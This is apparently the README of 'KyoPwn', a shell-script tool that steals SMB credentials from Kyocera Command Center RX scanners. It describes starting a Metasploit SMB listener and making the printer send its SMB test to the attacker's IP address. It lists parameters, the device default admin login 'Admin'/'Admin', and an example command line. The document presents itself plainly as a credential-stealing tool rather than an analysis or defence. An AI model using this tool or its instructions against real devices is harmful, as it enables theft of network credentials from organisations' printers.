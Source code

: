 # KyoPwn
by G-Factor Security (@GFSec)

A tool to steal SMB credentials from Kyocera Command Center RX scanners

This tool will start an SMB listener (via Metasploit) and send the necessary request
to the target device to send an SMB test to your local listener, capturing SMB credentials

Usage: ./kyopwn.sh KyoceraIP YourIP YourSMBPort SMBUser AdminUser AdminPW

KyoceraIP: The IP of the targeted device
YourIP: The IP address of your local system (for sending credentials)
YourSMBPort: The local port for receiving SMB requests
SMBUser: The username of the account you wish to steal
AdminUser: The username of an admin on the Kyocera (default on devices is 'Admin', case-sensitive)
AdminPW : The password of the admin account being used on the Kyocera (default on devices is 'Admin')

Exampe: ./kyopwn.sh 192.168.0.2 192.168.0.100 445 ScanUser Admin Admin
